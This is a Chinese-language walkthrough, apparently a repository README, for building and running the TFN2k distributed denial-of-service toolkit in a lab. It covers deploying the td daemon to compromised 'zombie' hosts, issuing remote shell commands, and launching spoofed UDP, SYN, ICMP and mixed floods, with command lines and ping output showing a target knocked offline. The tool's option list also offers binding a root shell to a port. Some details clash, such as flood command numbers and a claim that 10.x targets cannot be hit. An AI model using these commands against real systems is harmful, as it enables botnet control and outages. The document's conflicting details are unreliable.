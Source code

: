 

TFN2k 模拟攻击示例
==================

参考[1]
-----------

#1. 编译

`git clone https://github.com/poornigga/tfn2k`
`cd tfn2k`
`make`

#2. 安装

##测试环境：
>主控端tfn：10.4.3.145
>被控端td:
>1. 10.4.192.26
>2. 10.4.3.117
>3. 10.4.3.145  (10.4.3.145既做主控端又做被控端，即主控端自身也是肉鸡)

##测试手段：
>10.4.3.145指挥10.4.192.26,10.4.3.117,10.4.3.145去攻击10.4.192.25

##主控端安装
>将td,tfn两程序FTP到主控端（10.4.3.145）的/root
>`[root@localhost ~]# ls`
>`serverout0.txt  tfn  td`

##建立host_tfn文件，设立肉鸡地址，包括自身
>[root@localhost ~]# cat host_tfn
>10.4.192.26     
>10.4.3.145      自身
>10.4.3.117     

##被控端安装
>ftp td到各被控端


#3. 测试

##各被控端起td
>[mac@nm ~]$ su                 td必须在root下起
>Password:
>[root@nm mac]# ./td
>[root@nm mac]# ps -ef
>UID        PID  PPID  C STIME TTY          TIME CMD
>root     24923 24894  1 05:14 pts/1    00:00:00 su
>root     24924 24923  6 05:14 pts/1    00:00:00 bash
>root     24943     1  0 05:14 pts/1    00:00:00 tfn-daemon
>root     24944 24924  0 05:14 pts/1    00:00:00 ps –ef

##在主控host也要起肉鸡程序td (即主控端自身也是肉鸡)

>telnet 10.4.3.145
>连通性测试
>在所有肉鸡（包括主控端）td都启动后
>在主控端做基本的控制测试
>`[root@localhost ~]# /root/tfn -f host_tfn -c 10 -i "mkdir testaa"`

>Protocol      : random
>Source IP     : random
>Client input  : list
>Command       : execute remote command
>Password verification:  输入00008421 (此为主控端与各肉鸡的握手密码，是编译时生成的)
>Sending out packets: ...
>[root@localhost ~]#

##在各个肉鸡下都会自动建立一个目录testaa,通常建立在td文件存在的目录下
>`[root@localhost ~]# ls`
>`host_tfn    td      tfn`

>这证明主控和肉鸡通信正常

#正式开始攻击

##在主控端执行tfn
`
[root@localhost ~]# /root/tfn
usage: /root/tfn <options>
[-P protocol]   Protocol for server communication. Can be ICMP, UDP or TCP.
Uses a random protocol as default
[-D n]          Send out n bogus requests for each real one to decoy targets
[-S host/ip]    Specify your source IP. Randomly spoofed by default, you need
to use your real IP if you are behind spoof-filtering routers
[-f hostlist]   Filename containing a list of hosts with TFN servers to contact
[-h hostname]   To contact only a single host running a TFN server
[-i target string]      Contains options/targets separated by '@', see below
[-p port]               A TCP destination port can be specified for SYN floods
<-c command ID> 0 - Halt all current floods on server(s) immediately
1 - Change IP antispoof-level (evade rfc2267 filtering)
    usage: -i 0 (fully spoofed) to -i 3 (/24 host bytes spoofed)
2 - Change Packet size, usage: -i <packet size in bytes>
3 - Bind root shell to a port, usage: -i <remote port>
4 - UDP flood, usage: -i victim@victim2@victim3@...
5 - TCP/SYN flood, usage: -i victim@... [-p destination port]
6 - ICMP/PING flood, usage: -i victim@...
7 - ICMP/SMURF flood, usage: -i victim@broadcast@broadcast2@...
8 - MIX flood (UDP/TCP/ICMP interchanged), usage: -i victim@...
9 - TARGA3 flood (IP stack penetration), usage: -i victim@...
10 - Blindly execute remote shell command, usage -i command
`

>-c 10是执行一条指令
>-c 4,5,6,7,8,9 是5种DOS攻击
>-c 0 是关闭攻击

example:
[root@localhost ~]# /root/tfn -f host_tfn -c 6 -i 10.4.192.25 
从主控端指挥host_tfn内定义的肉鸡向10.4.192.25发动icmp ping 攻击
Protocol      : random
Source IP     : random
Client input  : list
Target(s)     : 10.4.192.25
Command       : commence icmp echo flood
Password verification: 输入00008421
Sending out packets: ...


过2分钟左右，ping 10.4.192.25就ping不通了
[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.

--- 10.4.192.25 ping statistics ---
16 packets transmitted, 0 received, 100% packet loss, time 14998ms

关闭攻击
[root@localhost ~]# /root/tfn -f host_tfn -c 0
Protocol      : random
Source IP     : random
Client input  : list
Command       : stop flooding
Password verification:  00008421
Sending out packets: ...

关闭攻击后，被攻击主机有可能会恢复通信，也有可能仍不能通信（必须重起），即被“攻死了”
[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
From 10.4.3.145 icmp_seq=2 Destination Host Unreachable
From 10.4.3.145 icmp_seq=3 Destination Host Unreachable
From 10.4.3.145 icmp_seq=4 Destination Host Unreachable
From 10.4.3.145 icmp_seq=6 Destination Host Unreachable
From 10.4.3.145 icmp_seq=7 Destination Host Unreachable
From 10.4.3.145 icmp_seq=8 Destination Host Unreachable

--- 10.4.192.25 ping statistics ---
10 packets transmitted, 0 received, +6 errors, 100% packet loss, time 8998ms
, pipe 3

[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
64 bytes from 10.4.192.25: icmp_seq=14 ttl=126 time=308 ms
64 bytes from 10.4.192.25: icmp_seq=15 ttl=126 time=361 ms
64 bytes from 10.4.192.25: icmp_seq=16 ttl=126 time=169 ms


TFN发动的攻击包括：UDPflood（-c 6)、TCP SYN flood(-c 5) 、ICMPreply flood(-c 7)

SYN/TCP攻击并设攻击端口（假设对方是WWW SERVER）
`# ./tfn　-f　hosts.txt　-c　5　-i　192.168.111.88　-p　80`


ICMP/TCP/UDP轮流攻击：
`#./tfn　-f　hosts.txt　-c　8　-i　192.168.111.88`
会按TCP/UDP/ICMP的轮替方式发攻击包。

tfn 发起攻击，如果目标不可达，比如没路由，PING不通等，他没有任何显示，就是tcpdump下不发包

tfn 只能对IP地址前两个数字至少有一个>100的地址发攻击，即tfn无法攻击10.1.1.1 这是反复实验得来的。
一开始发现在192地址下发起攻击有效，但在10的地址下发起攻击无效，


[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html

